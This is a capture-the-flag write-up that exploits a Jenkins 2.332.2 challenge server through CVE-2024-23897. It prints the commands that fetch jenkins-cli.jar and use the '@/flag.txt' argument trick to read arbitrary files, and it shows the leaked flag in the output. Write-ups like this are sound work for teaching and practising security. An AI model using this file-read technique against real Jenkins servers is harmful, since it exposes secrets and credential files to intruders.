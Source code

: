 # Devops

## The Best Butler

[<img src="bestbutlerchall.png"/>](bestbutlerchall.png)

Looking at the page it was a Jenkins instance. 

[<img src="jenkins.png"
  style="width: 800px;"/>](jenkins.png)

I tried using the script console to get code execution but I was met with this error around missing crumb.  

[<img src="crumb.png"/>](crumb.png)

I tried getting a valid crumb and sending the request again but it wasn't working for me.  

I noticed the version of jenkins running `Jenkins 2.332.2`.

This is vulnerable to CVE-2024-23897 [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/)

There are some POC's available which werent working for me so I exploited it manually by first of all downloading the cli-jar.

```bash
wget http://challenge.nahamcon.com:30192/jnlpJars/jenkins-cli.jar
```

Then with this I was able to leak the flag.txt files contents.

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s http://challenge.nahamcon.com:30192 who-am-i @/flag.txt
May 23, 2025 11:27:41 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: flag{ab63a76362c3972ac83d5cb8830fdb51}
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```


